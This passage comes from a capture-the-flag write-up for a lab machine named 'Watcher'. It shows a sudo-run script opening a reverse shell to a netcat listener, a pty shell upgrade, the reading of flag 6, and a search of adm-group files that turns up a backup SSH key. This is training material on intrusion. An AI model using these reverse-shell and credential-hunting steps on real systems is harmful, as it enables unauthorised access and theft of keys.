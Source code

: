 ~~~
$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
~~~

You should now have a reverse shell as `will`. Let's get the flag:

~~~
kali@kali:/data/Watcher/files$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.85.119] 45636
$ python3 -c "import pty;pty.spawn('/bin/bash')"
will@watcher:~/scripts$ id
id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
will@watcher:~/scripts$ cd /home/will
cd /home/will
will@watcher:/home/will$ cat flag_6.txt
cat flag_6.txt
FLAG{but_i_thought_my_script_was_secure}
~~~

Flag #6: `FLAG{but_i_thought_my_script_was_secure}`

# Flag 7

*Hint: https://explainshell.com/explain?cmd=ssh%20-i%20keyfile%20host*

Searching for flag #7 using `find` leads nowhere, probably because this is the root flag.

~~~
will@watcher:/home/will$ find / -type f -name flag_7.txt -exec ls -l {} + 2>/dev/null
<ype f -name flag_7.txt -exec ls -l {} + 2>/dev/null
~~~

Using `id`, we see that `will` is member of an `adm` group. Let's search for files owned by this group: 

~~~
will@watcher:/home/will$ id
id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
will@watcher:/home/will$ find / -type f -group adm -exec ls -l {} + 2>/dev/null
<d / -type f -group adm -exec ls -l {} + 2>/dev/null
-rw-rw---- 1 root   adm    2270 Dec  3 02:04 /opt/backups/key.b64
-rw-r----- 1 root   adm   41152 Apr 28 12:01 /var/log/apache2/access.log
-rw-r----- 1 root   adm   11176 Apr 28 12:59 /var/log/apache2/error.log
-rw-r----- 1 root   adm       0 Dec  3 01:39 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root   adm   28898 Dec 12 15:23 /var/log/apt/term.log
-rw-r----- 1 syslog adm   84878 Apr 28 13:57 /var/log/auth.log
-rw-r--r-- 1 syslog adm  637232 Apr 28 11:13 /var/log/cloud-init.log
-rw-r----- 1 syslog adm 1548107 Apr 28 11:13 /var/log/kern.log
-rw-r----- 1 syslog adm 1960650 Apr 28 13:57 /var/log/syslog
-rw-r--r-- 1 root   adm   43890 Dec 12 15:23 /var/log/unattended-upgrades/unattended-upgrades-dpkg.log
~~~
